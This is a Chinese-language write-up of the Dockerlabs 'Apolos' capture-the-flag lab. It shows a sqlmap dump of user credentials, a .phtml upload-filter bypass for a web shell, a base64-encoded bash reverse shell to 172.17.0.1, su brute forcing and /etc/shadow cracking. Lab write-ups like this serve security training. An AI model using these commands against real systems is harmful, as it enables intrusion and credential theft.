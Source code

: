 ```yaml
---
title: "Dockerlabs-Apolos"
date: 2025-02-25
categories: 
  - "dockerlabs"
tags: 
  - "dockerlabs"
  - "linux"
---
```


## Box Info

| OS | Linux |
| --- | --- |
| Difficulty | Medium |

## Nmap

```
[root@kali] /home/kali  
❯ nmap 172.17.0.2 -sV  -A
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-25 16:15 CST
Nmap scan report for 172.17.0.2
Host is up (0.000089s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-server-header: Apache/2.4.58 (Ubuntu)
|_http-title: Apple Store
MAC Address: 02:42:AC:11:00:02 (Unknown)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.8
Network Distance: 1 hop

TRACEROUTE
HOP RTT     ADDRESS
1   0.09 ms 172.17.0.2

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.98 seconds
```

## Dirsearch

```
[root@kali] /home/kali  
❯ dirsearch -u 172.17.0.2 -t 50 -i 200 
/usr/lib/python3/dist-packages/dirsearch/dirsearch.py:23: DeprecationWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html
  from pkg_resources import DistributionNotFound, VersionConflict

  _|. _ _  _  _  _ _|_    v0.4.3                                                                                            
 (_||| _) (/_(_|| (_| )                                                                                                     
                                                                                                                            
Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 50 | Wordlist size: 11460

Output File: /home/kali/reports/_172.17.0.2/_25-02-25_16-19-18.txt

Target: http://172.17.0.2/

[16:19:18] Starting:                                                                                                        
[16:19:35] 200 - 631B  - /login.php                                        
[16:19:41] 200 - 626B  - /register.php                                     
[16:19:47] 200 - 405B  - /uploads/                                         
[16:19:48] 200 - 0B  - /vendor/composer/autoload_static.php              
[16:19:48] 200 - 1KB - /vendor/composer/LICENSE                          
[16:19:48] 200 - 520B  - /vendor/                                          
[16:19:48] 200 - 0B  - /vendor/autoload.php                              
[16:19:48] 200 - 0B  - /vendor/composer/autoload_classmap.php
[16:19:48] 200 - 0B  - /vendor/composer/autoload_psr4.php                
[16:19:48] 200 - 0B  - /vendor/composer/ClassLoader.php
[16:19:48] 200 - 3KB - /vendor/composer/installed.json                   
[16:19:48] 200 - 0B  - /vendor/composer/autoload_namespaces.php          
[16:19:48] 200 - 0B  - /vendor/composer/autoload_real.php                
                                                                             
Task Completed       
```

可以看到存在**uploads**目录

## SQL Injection

进入之后随意注册一个账号，进入到**mycart**

![](./images/image-154.png)

可以看到存在**SQL注入**漏洞

![](./images/image-155.png)

```
[root@kali] /home/kali  
❯ sqlmap -u "http://172.17.0.2/mycart.php?search=1" --cookie "PHPSESSID=uv694pbom64dihteq9e6v2s5c0" -p search -D apple_store -T users --dump
```

![](./images/image-156.png)

可以直接破解

```
luisillo:mundodecaramelo
admin:0844575632
```

## www-data

使用**admin**的账户进入到后台

![](./images/image-158.png)

来到**Settings**界面，可以上传一个文件，这里对文件名后缀有检查，使用**phtml**可以绕过

![](./images/image-159.png)

访问**/uploads/shell.phtml**即可执行命令

![](./images/image-160.png)

```
cmd=echo "YmFzaCAtaSA+JiAvZGV2L3RjcC8xNzIuMTcuMC4xLzEwMCAwPiYx" |base64 -d |bash
```

![](./images/image-161.png)

## User luisillo\_o

这里我检查了**linpeas**和**pspy**的输出，都没有可以利用的点。

数据库中的密码无法登录到**luisillo\_o**，只能尝试爆破用户的密码。

由于外部并没有开启**22**端口，只能内部爆破。需要使用到**suForce**和**rockyou.txt**

- [d4t4s3c/suForce: Obtain a user's system password, this tool uses the su binary to perform a brute force attack until a successful collision occurs.](https://github.com/d4t4s3c/suForce)

![](./images/image-162.png)

## Root

发现**luisillo**可以查看**shadow**文件

![](./images/image-163.png)

破解得到**root**的密码：**rainbow2**

![](./images/image-164.png)

## Summary

`www-data`：比较简单的**SQL**注入得到后台账户密码，然后文件上传绕过**php**后缀名检测。

`User`：没有特殊权限的命令或者文件，也没有定时任务之类的，只能是爆破用户密码，当然这是下策。

`Root`：读取**/etc/shadow**文件进行破解。
